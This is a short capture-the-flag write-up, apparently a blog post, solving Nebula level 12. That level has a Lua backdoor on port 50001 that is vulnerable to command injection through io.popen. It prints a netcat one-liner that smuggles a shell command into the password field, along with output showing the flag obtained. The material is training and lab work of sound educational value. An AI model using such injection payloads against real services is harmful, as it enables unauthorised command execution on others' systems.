 ```yaml
---
layout: post
title: "20xx-A1-Injection"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 12](http://exploit-exercises.com/nebula/level12) Agenda**: "There is a backdoor process listening on port 50001"

<center>
	<img src="/images/2015-04-30-20xx-a1-injection/d07c009c4db4f137254e650332c.jpg">
</center>
<br />
This one is pretty easy, it contains [injection flaw](https://www.owasp.org/index.php/Top_10_2013-A1-Injection). The vulnerability arises when a naked unhandled input string falls into "_hash_" function as an "_password_" argument. [io.popen](http://www.lua.org/manual/5.1/manual.html#pdf-io.popen) lua facility starts commands chain in a separated process, thereby we can provide injection:
{% highlight sh linenos %}
level12@nebula:~$ echo "0; getflag > /tmp/flag; echo 0" | nc localhost 50001
Password: Better luck next time
level12@nebula:~$ cat /tmp/flag 
You have successfully executed getflag on a target account
{% endhighlight %}
As well, in this manner we didn't break the execution chain. "_Voila_"!  